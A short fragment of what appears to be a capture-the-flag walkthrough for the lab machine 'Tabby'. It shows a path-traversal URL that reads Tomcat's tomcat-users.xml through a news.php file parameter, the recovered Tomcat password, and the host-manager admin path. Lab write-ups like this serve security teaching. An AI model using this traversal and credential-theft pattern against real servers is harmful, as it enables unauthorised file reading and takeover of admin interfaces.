 view-source:http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
![screenshot](/assets/images/tabby14.png)

```text
tomcat: $3cureP4s5w0rd123!
```

:8080/host-manager/html